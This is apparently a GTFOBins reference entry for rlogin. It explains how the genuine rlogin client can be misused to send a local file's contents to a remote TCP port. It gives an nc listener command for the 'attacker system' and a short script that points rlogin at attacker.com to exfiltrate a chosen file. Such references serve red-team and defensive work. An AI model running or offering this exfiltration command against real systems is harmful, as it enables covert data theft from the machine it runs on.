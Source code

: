 # GTFOBin: rlogin

Usually `rlogin` is a symlink to `ssh`, the following works only when the real `rlogin` is used (e.g., from the `rsh-client` APT package).

## File upload

It can exfiltrate files on the network.

Send contents of a file to a TCP port. Run `nc -l -p 12345 > "file_to_save"` on the attacker system to capture the contents.

`rlogin` hangs waiting for the remote peer to close the socket.

The file is corrupted by leading and trailing spurious data.

```
RHOST=attacker.com
RPORT=12345
LFILE=file_to_send
rlogin -l "$(cat $LFILE)" -p $RPORT $RHOST
```